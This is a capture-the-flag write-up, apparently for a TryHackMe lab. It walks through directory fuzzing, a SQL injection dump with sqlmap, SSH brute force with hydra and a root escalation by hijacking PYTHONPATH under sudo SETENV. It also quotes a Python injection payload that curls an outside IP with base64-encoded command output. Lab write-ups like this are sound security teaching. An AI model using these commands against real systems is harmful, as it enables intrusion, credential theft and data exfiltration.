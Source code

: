 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 8000 | http    |



# RECONNAISSANCE
---


![Pasted image 20250515122728.png](../../IMAGES/Pasted%20image%2020250515122728.png)


As we can see, we got a login page, let's try to fuzz before trying any vuln such as sqli or xss:


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.160.42:8000/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.160.42:8000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 200, Size: 856, Words: 43, Lines: 26, Duration: 338ms]
register                [Status: 200, Size: 964, Words: 51, Lines: 27, Duration: 886ms]
logout                  [Status: 302, Size: 218, Words: 21, Lines: 4, Duration: 190ms]
```

Seems like nothing important can be found, let's proceed to the login page then.

![Pasted image 20250515123053.png](../../IMAGES/Pasted%20image%2020250515123053.png)

A good approach is to understand the register process, as we can see, we got to enter the email `id`, this seems weird, let's submit the request to our proxy:

![Pasted image 20250515123302.png](../../IMAGES/Pasted%20image%2020250515123302.png)

I noticed that at the login page, if we use:

```
_
```

We get status code `500`, from a previous machine, I exploited this using a python server to perform:

```python
__import__('os').system('curl http://IP:8000?pwned=$(id|base64)')
```


This time I had no luck, let's proceed to testing `SQLI` and `XSS` then:


![Pasted image 20250515124333.png](../../IMAGES/Pasted%20image%2020250515124333.png)

If we use that, we get:


![Pasted image 20250515124345.png](../../IMAGES/Pasted%20image%2020250515124345.png)


Surprisingly, `SQLI` works, let's proceed to exploitation then.


# EXPLOITATION
---

Knowing that the `username` parameter is vulnerable, let's save the request to a file and use `sqlmap` to check if we can get anything valuable:


```
sqlmap -r "$(pwd)/req.req" --dbs --dump

Database: website
Table: users
[2 entries]
+----+----------------------+----------------+----------+
| id | email                | password       | username |
+----+----------------------+----------------+----------+
| 1  | smokey@email.boop    | My_P@ssW0rd123 | smokey   |
| 2  | test@test.com;whoami | test           | test     |
+----+----------------------+----------------+----------+
```


There we go, we got credentials, let's go into ssh

![Pasted image 20250515125529.png](../../IMAGES/Pasted%20image%2020250515125529.png)


We can begin privilege escalation.



# PRIVILEGE ESCALATION
---


To begin with, let's use `linpeas` so we can check any PE vector:

![Pasted image 20250515133638.png](../../IMAGES/Pasted%20image%2020250515133638.png)

As seen, we got another user named `hazel`, we can also find this:

![Pasted image 20250515133711.png](../../IMAGES/Pasted%20image%2020250515133711.png)

This task runs as `smokey` so we cannot get a root shell with that, if we check inside of `hazel` home, we can find this:

```
smokey@ip-10-10-160-42:~$ ls -la /home/hazel/
total 32
drwxr-xr-x 3 root  root  4096 Mar  2  2022 .
drwxr-xr-x 5 root  root  4096 May 15 17:18 ..
lrwxrwxrwx 1 root  root     9 Dec  7  2021 .bash_history -> /dev/null
-rw-r--r-- 1 hazel hazel  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 hazel hazel 3771 Feb 25  2020 .bashrc
drwx------ 2 hazel hazel 4096 Dec  7  2021 .cache
-rw-r----- 1 root  hazel  497 Dec  7  2021 hasher.py
-rw-r--r-- 1 hazel hazel  807 Feb 25  2020 .profile
-rw-r----- 1 root  hazel   45 Mar  2  2022 user.txt
-rw------- 1 hazel hazel    0 Dec  7  2021 .viminfo
```

There's a file named `hasher.py`, seems like that could be our way into root, since we need `hazel` credentials and there seems to be no backup or anything that reveals us this user's password, let's try brute force:

```
hydra -l hazel -P /usr/share/wordlists/rockyou.txt IP ssh -t 4
```

![Pasted image 20250515135342.png](../../IMAGES/Pasted%20image%2020250515135342.png)

After a while we get:

```
hazel:hazel
```

Seems like the user was the password, let's go into ssh with those credentials then:

![Pasted image 20250515134533.png](../../IMAGES/Pasted%20image%2020250515134533.png)

We can now read the user flag:

```
hazel@ip-10-10-160-42:~$ cat user.txt
THM{G0Od_OLd_SQL_1nj3ct10n_&_w3@k_p@sSw0rd$}
```

If we check our sudo privileges, we can notice this:

```bash
hazel@ip-10-10-160-42:~$ sudo -l
Matching Defaults entries for hazel on ip-10-10-160-42:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on ip-10-10-160-42:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py


hazel@ip-10-10-160-42:~$ ls -l hasher.py
-rw-r----- 1 root hazel 497 Dec  7  2021 hasher.py
```

Let's check the code for the script:

```python
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

We cannot write on the file so we need to exploit it using the `SETENV` tag, this tag allows us to set environment variables on the sudo command line, if we are able to hijack the `PYTHONPATH` we will get a shell as root, TheÂ `PYTHONPATH`environment variableÂ controls where Python looks for modules. When Python imports a module likeÂ `hashlib`, it searches for the module in the following order:

- Current directory
- Directories in theÂ `PYTHONPATH`Â environment variable
- Standard library directories
- Site-packages directories

Understanding the flow, we can follow these steps to get a root as shell:

1. **Create a maliciousÂ `hashlib.py`Â module**Â that spawns a shell when imported:

```bash
echo 'import os; os.system("/bin/bash")' > /tmp/hashlib.py
```

2. **Execute theÂ `hasher.py`Â script with sudo**, hijacking theÂ `PYTHONPATH`Â environment variable to includeÂ `/tmp`. 

```python
sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

If we do this, we can see:

![Pasted image 20250515135207.png](../../IMAGES/Pasted%20image%2020250515135207.png)

As seen, we get a root as shell and can now read `root.txt`:

```
root@ip-10-10-160-42:/home/hazel# cat /root/root.txt
THM{PytH0n_LiBr@RY_H1j@acKIn6}
```

![Pasted image 20250515135418.png](../../IMAGES/Pasted%20image%2020250515135418.png)

